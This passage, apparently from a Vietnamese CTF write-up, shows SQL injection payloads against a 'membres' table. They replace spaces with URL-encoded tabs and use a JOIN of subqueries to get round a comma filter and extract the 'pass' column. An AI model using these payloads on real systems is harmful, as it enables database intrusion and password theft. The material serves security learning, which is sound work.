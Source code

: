 
Ngồi fuzz và ta đã có payload có thể tiêm:

**1%09UNION%09SELECT%09\*%09FROM%09membres%09LIMIT%091%09OFFSET%090**

Ở trên, ta đã biết được 4 cột của database. Giờ thì thử thách tiếp theo là bypass dấu **‘,’**. Tuy nhiên, có vẻ như không có cách nào thay thế được dấu ‘,’ cả.

Sau khi lượn trên các mặt trận, em tìm được cấu trúc query sử dụng cross join để JOIN multi query trong subqueries để có thể truy xuất nhiều cột không cần sử dụng **‘comma’**:

> union select \* from ((select 1)A join (select 2)B join (select group\_concat(user(),' ',database(),' ',@@datadir))C);

<img src="./media/image9.png" style="width:6.00411in;height:2.99885in" alt="Graphical user interface, text, application, email Description automatically generated" />

Thử áp dụng payload trên và các lưu ý từ đầu, ta có payload:

1 UNION SELECT \* FROM (SELECT 123) AS a JOIN (SELECT 456) AS b JOIN (SELECT 123) AS c JOIN (SELECT pass FROM membres LIMIT 1) AS d) LIMIT 1 OFFSET 0

Payload để tiêm:

**1%09UNION%09SELECT%09\*%09FROM%09((SELECT%09123)%09AS%09a%09JOIN%09(SELECT%09456)%09AS%09b%09JOIN%09(SELECT%09123)%09AS%09c%09JOIN%09(SELECT%09pass%09FROM%09membres%09LIMIT%091)%09AS%09d)%09LIMIT%091%09OFFSET%090**

<img src="./media/image10.png" style="width:6.5in;height:1.97431in" alt="Graphical user interface, text, application, email Description automatically generated" />
